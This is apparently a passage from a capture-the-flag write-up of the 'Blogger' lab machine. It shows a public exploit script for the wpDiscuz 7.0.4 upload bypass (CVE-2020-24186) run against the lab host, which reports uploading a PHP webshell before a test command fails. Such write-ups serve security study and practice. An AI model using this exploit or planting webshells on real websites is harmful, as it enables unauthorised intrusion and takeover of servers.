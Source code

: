 By clicking on the first blog post, got a url : `http://blogger.pg/assets/fonts/blog/?p=29`

![](/assets/obsidian/9715bedc8f26619a40d7efd73585f34f.png)

```bash
┌──(bravosec㉿fsociety)-[~/…/pg/play/Blogger/exploit]
└─$ python 49967.py -u http://blogger.pg/assets/fonts/blog/ -p "?p=29"
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
---------------------------------------------------------------

[+] Response length:[59354] | code:[200]
[!] Got wmuSecurity value: 72ed7c68e9
[!] Got wmuSecurity value: 29

[+] Generating random name for Webshell...
[!] Generated webshell name: tmedkezeolpapqg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.pg/assets/fonts/blog/wp-content/uploads/2024/06/tmedkezeolpapqg-1718442855.9935.php&quot;

> id

[x] Failed to execute PHP code...
```
